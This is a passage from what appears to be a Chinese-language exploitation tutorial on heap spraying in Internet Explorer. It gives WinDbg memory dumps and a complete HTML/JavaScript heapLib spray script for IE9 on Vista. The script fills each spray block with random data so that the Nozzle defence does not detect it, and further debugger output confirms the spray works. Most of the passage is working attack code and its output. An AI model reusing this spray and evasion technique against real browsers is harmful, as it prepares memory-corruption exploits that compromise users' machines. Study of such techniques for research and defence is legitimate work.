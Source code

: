 

```
0:019&gt; dd 0c0c0c0c
0c0c0c0c  41414141 42424242 43434343 44444444
0c0c0c1c  cccccccc cccccccc cccccccc cccccccc
0c0c0c2c  cccccccc cccccccc cccccccc cccccccc
```

成功实现了精准堆喷射。<br>

**<br>**

**Vista下的IE9的堆喷射**

IE8下的脚本在IE9下不再有用，因为IE9使用了Nozzle的防御措施，检测包含重复内容的内存申请，然后会阻止这样的申请，导致堆喷失败，由于我们的堆喷是精确的，所以前后的数据都不一定是滑板指令，可以是随机数，可以利用JavaScript的数学随机数生成随机串，绕过检测。

堆喷射脚本，同样需要包含heaplib.js:

```
&lt;html&gt;
&lt;script language='javascript'&gt;
var heap_obj = new heapLib.ie(0x10000);
var code = unescape("%u6174%u7367"); //tags
for (var i=0; i &lt; 0x800; i++) `{`
    var randomnumber1=Math.floor(Math.random()*90)+10;
    var randomnumber2=Math.floor(Math.random()*90)+10;
    var randomnumber3=Math.floor(Math.random()*90)+10;
    var randomnumber4=Math.floor(Math.random()*90)+10;
    var BUNSTstr = "%u" + randomnumber1.toString() + randomnumber2.toString()
    BUNSTstr += "%u" + randomnumber3.toString() + randomnumber4.toString()
    var BUNST = unescape(BUNSTstr);
    while (BUNST.length &lt; 0x1000) BUNST+= BUNST;
    var single_sprayblock = BUNST.substring(0, 0x800 - code.length) + code;
    while (single_sprayblock.length &lt; 0x20000) single_sprayblock += single_sprayblock;
    sprayblock = single_sprayblock.substring(0, (0x40000-6)/2);
    heap_obj.alloc(sprayblock);
`}`
document.write("Spray done");
&lt;/script&gt;
&lt;/html&gt;
```

首先堆喷是成功的:

```
0:017&gt; dd 0c0c0c0c
0c0c0c0c  53885684 53885684 53885684 53885684
0c0c0c1c  53885684 53885684 53885684 53885684
```

由于IE9中的堆喷用之前的方法查看不到堆的情况，所以我把code设为tags，堆喷完成后在内存中搜索tags:



```
0:017&gt; s -a 0x00000000 L?7fffffff "tags"
00419b75  74 61 67 73 0a 2f 2f 76-61 72 20 72 6f 70 20 3d  tags.//var rop =
01ff473f  74 61 67 73 20 28 61 74-74 72 69 62 75 74 65 73  tags (attributes
0207c23c  74 61 67 73 2e 20 41 6c-73 6f 20 61 64 64 69 6e  tags. Also addin
...
0396100c  74 61 67 73 92 39 90 17-92 39 90 17 92 39 90 17  tags.9...9...9..
0396200c  74 61 67 73 92 39 90 17-92 39 90 17 92 39 90 17  tags.9...9...9..
0396300c  74 61 67 73 92 39 90 17-92 39 90 17 92 39 90 17  tags.9...9...9..
0396400c  74 61 67 73 92 39 90 17-92 39 90 17 92 39 90 17  tags.9...9...9..
0396500c  74 61 67 73 92 39 90 17-92 39 90 17 92 39 90 17  tags.9...9...9..
0396600c  74 61 67 73 92 39 90 17-92 39 90 17 92 39 90 17  tags.9...9...9..
0396700c  74 61 67 73 92 39 90 17-92 39 90 17 92 39 90 17  tags.9...9...9..
0396800c  74 61 67 73 92 39 90 17-92 39 90 17 92 39 90 17  tags.9...9...9..
0396900c  74 61 67 73 92 39 90 17-92 39 90 17 92 39 90 17  tags.9...9...9..
```